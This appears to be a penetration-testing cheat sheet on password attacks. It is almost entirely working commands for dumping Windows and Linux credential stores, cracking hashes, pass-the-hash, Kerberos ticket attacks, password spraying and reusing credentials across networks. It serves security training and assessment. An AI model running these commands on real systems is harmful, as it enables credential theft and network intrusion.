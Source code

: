 # Password Attacks

## Password Attacks

Password attacks are techniques used to obtain, crack, or bypass authentication credentials. These methods are crucial for security assessments, penetration testing, and understanding defensive measures against unauthorized access.

### Credential Hunting

#### Windows Credential Locations

| Location                 | Description                                                | Access Method                                     |
| ------------------------ | ---------------------------------------------------------- | ------------------------------------------------- |
| SAM Database             | Stores local account hashes                                | `reg save HKLM\SAM sam.save`                      |
| LSASS Process            | Contains in-memory credentials                             | Process dumping tools                             |
| NTDS.dit                 | Domain controller database with all domain password hashes | Volume Shadow Copy or Directory Service utilities |
| Credential Manager       | Saved web/Windows credentials                              | `cmdkey /list`                                    |
| Registry Credentials     | AutoLogon, stored credentials                              | `reg query HKLM /f password /t REG_SZ /s`         |
| Configuration Files      | Application config files                                   | Search for password patterns                      |
| Group Policy Preferences | Potential domain credentials                               | `findstr /S /I cpassword \\\\sysvol\\*.xml`       |

#### Linux Credential Locations

| Location            | Description                             | Access Method                      |
| ------------------- | --------------------------------------- | ---------------------------------- |
| /etc/shadow         | Hashed user passwords                   | `cat /etc/shadow`                  |
| .bash\_history      | Command history may contain credentials | `cat ~/.bash_history`              |
| SSH Keys            | Private/public key pairs                | `ls -la ~/.ssh/`                   |
| Configuration Files | App configs in /etc or home directories | `grep -r "password" /etc/`         |
| Browser Data        | Saved browser credentials               | Access `~/.mozilla/` or similar    |
| Cleartext Files     | Notes, backup files with credentials    | `find / -name "*.txt" 2>/dev/null` |
| Memory Dumps        | Credentials in process memory           | Memory analysis tools              |

### Hash Extraction Techniques

#### Windows SAM Database

```cmd
# Save SAM and SYSTEM registry hives
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save

# Extract with Impacket
python secretsdump.py -sam sam.save -system system.save LOCAL
```

#### LSASS Memory Dumping

```powershell
# Create process dump with Task Manager
# Process Explorer
# Process Hacker

# Using ProcDump
procdump.exe -ma lsass.exe lsass.dmp

# Using Mimikatz to extract from dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### NTDS.dit from Domain Controllers

```cmd
# Create shadow copy
vssadmin create shadow /for=C:

# Copy NTDS.dit from shadow copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\system.save

# Extract with Impacket
python secretsdump.py -ntds ntds.dit -system system.save LOCAL
```

#### Linux /etc/shadow

```bash
# Copy shadow file
cat /etc/shadow

# Unshadow (combine with passwd for John)
unshadow /etc/passwd /etc/shadow > hashes.txt
```

### Password Cracking

#### Hashcat

```bash
# MD5
hashcat -m 0 -a 0 hashes.txt wordlist.txt

# NTLM
hashcat -m 1000 -a 0 hashes.txt wordlist.txt

# SHA-512 (Linux $6$)
hashcat -m 1800 -a 0 hashes.txt wordlist.txt

# NetNTLMv2
hashcat -m 5600 -a 0 hashes.txt wordlist.txt

# With rules
hashcat -m 1000 -a 0 hashes.txt wordlist.txt -r rules/best64.rule
```

#### John the Ripper

```bash
# Auto-detect hash type
john --wordlist=wordlist.txt hashes.txt

# Specific format
john --format=nt --wordlist=wordlist.txt hashes.txt

# With rules
john --format=nt --wordlist=wordlist.txt --rules=Jumbo hashes.txt

# Show cracked passwords
john --show --format=nt hashes.txt
```

### Pass-the-Hash Attacks

#### Using Mimikatz (Windows)

```powershell
# Pass-the-Hash with Mimikatz
sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:e2b475c11da2a0748290d87aa966c327

# PTH to create a new process
sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:e2b475c11da2a0748290d87aa966c327 /run:cmd.exe
```

#### Using Impacket (Linux)

```bash
# SMB access with PTH
python psexec.py -hashes :e2b475c11da2a0748290d87aa966c327 administrator@10.10.10.10

# WMI access with PTH
python wmiexec.py -hashes :e2b475c11da2a0748290d87aa966c327 administrator@10.10.10.10
```

#### CrackMapExec for PTH

```bash
# SMB pass-the-hash
crackmapexec smb 10.10.10.10 -u administrator -H e2b475c11da2a0748290d87aa966c327

# Execute commands
crackmapexec smb 10.10.10.10 -u administrator -H e2b475c11da2a0748290d87aa966c327 -x "whoami"
```

### Kerberos Attacks

#### Kerberoasting

```bash
# GetUserSPNs.py from Impacket
python GetUserSPNs.py domain.local/user:password -dc-ip 10.10.10.10 -request

# PowerShell Empire/PowerView
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat
```

#### AS-REP Roasting

```bash
# GetNPUsers.py from Impacket
python GetNPUsers.py domain.local/ -dc-ip 10.10.10.10 -usersfile users.txt -format hashcat -outputfile asrep.txt

# Rubeus (Windows)
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt
```

#### Golden Ticket Attack

```powershell
# Using Mimikatz
lsadump::dcsync /domain:domain.local /user:krbtgt
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:hash /ptt
```

#### Silver Ticket Attack

```powershell
# Using Mimikatz
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /target:server.domain.local /service:http /rc4:hash /ptt
```

### Password Spraying

#### Windows Internal Networks

```powershell
# Using DomainPasswordSpray.ps1
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2023! -OutFile spray_results.txt
```

```bash
# Using CrackMapExec
crackmapexec smb 10.10.10.0/24 -u usernames.txt -p 'Spring2023!' --continue-on-success

# Using Kerbrute
kerbrute passwordspray -d contoso.local --dc 10.10.10.10 users.txt 'Spring2023!'
```

#### Web Applications

```bash
# Using Hydra for HTTP POST form
hydra -L users.txt -p 'Spring2023!' 10.10.10.10 http-post-form "/login:username=^USER^&password=^PASS^:F=Login failed"
```

### Credential Reuse and Pivoting

#### Testing Credentials Across Network

```bash
# SMB login attempts
crackmapexec smb 10.10.10.0/24 -u administrator -p 'Password123'

# RDP login attempts
crackmapexec rdp 10.10.10.0/24 -u administrator -p 'Password123'

# SSH login attempts
crackmapexec ssh 10.10.10.0/24 -u administrator -p 'Password123'
```
